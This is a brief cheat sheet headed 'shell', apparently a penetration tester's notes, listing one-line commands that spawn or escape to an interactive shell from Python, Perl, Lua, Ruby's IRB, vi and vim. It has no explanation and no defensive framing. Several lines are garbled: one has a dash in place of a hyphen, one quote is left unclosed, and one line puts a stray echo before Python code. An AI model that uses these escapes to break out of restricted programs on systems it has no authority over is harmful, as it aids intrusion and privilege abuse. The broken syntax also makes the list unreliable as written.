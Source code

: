 # **shell**

echo os.system('/bin/bash')  
  
/bin/sh -i  
  
perl —e 'exec "/bin/sh";'  
  
perl: exec "/bin/sh";  
  
lua: os.execute('/bin/sh')  
  
IRB: exec "/bin/sh  
  
vi: :!bash  
  
:set shell=/bin/bash:shell  
  
vim ':!bash'